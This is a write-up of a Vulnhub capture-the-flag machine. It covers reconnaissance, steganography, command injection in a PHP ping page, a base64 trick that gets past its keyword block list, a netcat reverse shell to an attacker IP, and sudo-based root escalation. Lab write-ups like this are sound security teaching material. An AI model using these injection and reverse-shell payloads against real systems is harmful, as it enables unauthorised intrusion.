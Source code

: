 ```yaml
---
layout: post
title: Vulnhub - No_name writeup
date: 2019-02-15 8:00 PM
---
```


## Nmap

![](images/noname/nmap.png)

We see only one port is open so that is what we are going to enumerate more

***

## HTTP

![](images/noname/website.png)

It's very simple and plain website. I started gobuster scan on it to see if we can find any hidden directory.

![](images/noname/gobuster.png)

We can see that there is `/admin`. And if we open that page we see some images:

![](images/noname/admin.png)

And in the comment I found a phassphrase

![](images/noname/pass.png)

When I saw that it said `passphrase` and the webpage had some image file I knew it right away that in one of these files we'll find something hidden. So I tried all the images and found something in `haclabs.jpeg`(the one with spiderman on it)

I used the following command to extract the file from the image:
```bash
steghide --extract -sf haclabs.jpeg -p harder
```

![](images/noname/extract.png)

And this gave me `imp.txt`. That file had a base64 encoded string which gave me a name of file called `superadmin.php`

![](images/noname/b64.png)

When we open that page we see a utility that takes IP as an input and pings it. Now obviously we can test this input for `RCE`.
After some trial I was able to execute command using `|` i.e if we enter `127.0.0.1 | whoami` it will give us `www-data`.

![](images/noname/rce.png)

Before I tried to get the reverse shell I tried to read the source of the `superadmin.php` to see what all command is restricted.

```
127.0.0.1 | cat superadmin.php
```

![](images/noname/source.png)

```php
?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
```
We can see that there are some commands that are not allowed at all. So we can use `nc.traditional` to get a reverse shell but the issue with that would be `nc` string would still be detected. So to bypass this I simply base64 encoded the following payload:

```bash
nc.traditional -e /bin/bash 192.168.1.125 4444
```

And then sent the following command in that IP box

```
127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS4xMjUgNDQ0NAo=" | base64 -d`
```
![](images/noname/rev.png)

***

## Privilege escalation

I ran my enumeration script but couldn't find anything in that. So I started to look around manually. In `/home/yash` I found `flag1.txt` which said that we need to find some hidden file.

![](images/noname/flag1.png)

I used the `find` command to find the hidden file.

![](images/noname/hidden.png)

and then found the password for `haclabs` account.

![](images/noname/passwd.png)

`haclabs:haclabs1234`

as we noticed that in `haclabs` there was a file named `.sudo_admin...` that means there are some sudo rights for `haclabs` so after I `su` to that account I ran `sudo -l` to see what he's allowed to run.

![](images/noname/sudo.png)

as we can see he can run `find` command as root. We can use [gtfo](https://github.com/mzfr/gtfo) to search gtfobins from terminal.

![](images/noname/gtfo.png)

Now using the `sudo` trick we can get root shell.

![](images/noname/root-shell.png)

![](images/noname/root.png)

***

That's it for now.

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
